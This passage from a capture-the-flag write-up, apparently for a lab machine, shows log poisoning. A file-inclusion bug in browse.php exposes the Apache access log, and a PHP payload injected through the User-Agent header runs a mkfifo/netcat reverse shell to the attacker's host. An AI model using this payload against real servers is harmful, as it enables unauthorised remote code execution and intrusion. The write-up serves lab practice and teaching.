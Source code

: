 ## Method 2 - Log Poisoning

According to `phpinfo.php`, the system is running on `FreeBSD`. Lets check out where are the logs stored in this system.

Searching `freebsd web server log location` on Google resulted in this [webpage](https://blog.codeasite.com/how-do-i-find-apache-http-server-log-files/) which states that the log file location is at `/var/log/httpd-access.log`.

Now, lets open up BurpSuite and play around with the logs! OwO

```http
- Request - 
GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

- Response -
HTTP/1.1 200 OK
Date: Mon, 18 Jul 2022 02:32:14 GMT
Server: Apache/2.4.29 (FreeBSD) PHP/5.6.32
X-Powered-By: PHP/5.6.32
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 31507
...
10.10.14.2 - - [18/Jul/2022:03:31:39 +0200] "GET /browse.php?file=listfiles.php HTTP/1.1" 200 192 "http://10.10.10.84/" "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0"
...
```

Notice that in the logs, the User Agent is being logged, which is something that we can control!

Could we possibly change the User Agent to a reverse shell command?

```http
- Request -
GET /browse.php?file=/var/log/httpd-access.log HTTP/1.1
Host: 10.10.10.84
User-Agent: <?php exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f') ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

- Response -
HTTP/1.1 200 OK
Date: Mon, 18 Jul 2022 02:37:41 GMT
Server: Apache/2.4.29 (FreeBSD) PHP/5.6.32
X-Powered-By: PHP/5.6.32
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 31694
...
```
